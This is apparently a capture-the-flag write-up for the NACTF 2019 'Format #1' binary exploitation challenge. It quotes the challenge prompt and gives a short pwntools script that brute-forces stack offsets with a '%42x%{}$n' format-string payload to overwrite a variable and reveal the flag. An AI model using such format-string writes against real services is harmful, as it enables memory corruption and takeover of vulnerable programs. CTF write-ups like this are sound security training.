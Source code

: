 # Format #1

## Binary Exploitation - Points: 250

> printf can do more than just read memory... can you change the variable?
>
> 
>
> Connect at `nc shell.2019.nactf.com 31560`
>
> [format-1.c](format-1.c)
>
> [format-1](format-1)
>

The script now uses a format string to write the value 42 to different offsets and will print out the flag when it hits the passed pointer of `num`.

```python
from pwn import *

for i in range(8,64):
	r = remote('ingress.cluster.nactf.com', 31560)
	r.sendline('%42x%{}$n'.format(i))
	print r.recvall()
```